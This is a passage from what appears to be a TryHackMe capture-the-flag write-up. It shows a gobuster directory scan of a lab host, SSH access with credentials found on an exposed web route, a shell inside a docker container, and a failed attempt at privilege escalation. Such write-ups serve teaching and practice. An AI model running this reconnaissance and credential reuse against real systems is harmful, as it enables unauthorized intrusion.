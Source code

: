 # Port 8888

![/assets/images/TryHackMe/hackerofthehill_hard/Untitled%2013.png](/assets/images/TryHackMe/hackerofthehill_hard/Untitled%2013.png)

## Gobuster

Since it had routes like /apps/ so I did not search for files.

```bash
$ gobuster dir -u "http://10.10.172.104:8888" -w ../../../tools/directory-list-2.3-medium.txt -t 30
/users                (Status: 200) [Size: 45]
/apps                 (Status: 200) [Size: 135]
```

![/assets/images/TryHackMe/hackerofthehill_hard/Untitled%2014.png](/assets/images/TryHackMe/hackerofthehill_hard/Untitled%2014.png)

So we have credentials.

There were two SSH ports. The credentials worked on port 2222

```bash
$ ssh davelarkin@10.10.172.104 -p 2222
davelarkin@10.10.172.104's password: 

davelarkin@a9ef0531077f:~$
```

Got shell to a docker container

```bash
davelarkin@a9ef0531077f:~$ ls -la
total 24
drwxr-xr-x 1 root root 4096 Feb 22 16:42 .
drwxr-xr-x 1 root root 4096 Feb 22 16:42 ..
drwxr-xr-x 2 root root 4096 Feb 22 16:42 .ssh
drwxr-xr-x 2 root root 4096 Feb 22 16:42 api
drwxr-xr-x 2 root root 4096 Feb 22 16:42 bin
-rw-r--r-- 1 root root   38 Feb 22 16:42 container4_flag.txt
```

We have our flag.

## Escalating privileges

Even though this container had `sys_admin` capabilities but it needed root to execute. But I could not get root user so, could not exploit that.
